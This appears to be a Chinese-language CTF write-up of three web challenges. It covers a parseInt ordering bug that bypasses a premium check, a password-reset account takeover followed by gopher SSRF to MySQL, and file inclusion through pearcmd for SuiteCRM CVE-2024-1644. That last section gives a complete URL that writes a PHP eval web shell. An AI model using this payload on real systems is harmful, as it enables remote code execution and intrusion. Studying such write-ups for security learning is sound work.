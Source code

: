 ## cool_index
```js
app.post("/article", (req, res) => {
    const token = req.cookies.token;
    if (token) {
        try {
            const decoded = jwt.verify(token, JWT_SECRET);
            let index = req.body.index;
            if (req.body.index < 0) {
                return res.status(400).json({ message: "你知道我要说什么" });
            }
            if (decoded.subscription !== "premium" && index >= 7) {
                return res
                    .status(403)
                    .json({ message: "订阅高级会员以解锁" });
            }
            index = parseInt(index);
            if (Number.isNaN(index) || index > articles.length - 1) {
                return res.status(400).json({ message: "你知道我要说什么" });
            }
  
            return res.json(articles[index]);
        } catch (error) {
            res.clearCookie("token");
            return res.status(403).json({ message: "重新登录罢" });
        }
    } else {
        return res.status(403).json({ message: "未登录" });
    }
});
```

index的处理是在高级会员判断完成后再处理的，传入`7a`判断时不等于parseInt会转化为7输出flag

![](attachments/Pasted%20image%2020240422091952.png)

## EasySignin
普通注册用户无法查看图片，在修改密码时将传参用户名修改为admin
![](attachments/Pasted%20image%2020240422103924.png)

gopher协议探测到mysql服务
![](attachments/Pasted%20image%2020240422104025.png)

![](attachments/Pasted%20image%2020240422105750.png)

尾部二次编码

![](attachments/Pasted%20image%2020240422105816.png)

base64解码

![](attachments/Pasted%20image%2020240422105857.png)

## SuiteCRM
CVE-2024-1644
直接文件包含pearcmd
![](attachments/Pasted%20image%2020240422110254.png)

`http://65355f06-a589-4c13-95d6-a4fab4ba0d12.node5.buuoj.cn/index.php//usr/local/lib/php/pearcmd.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/shell.php`

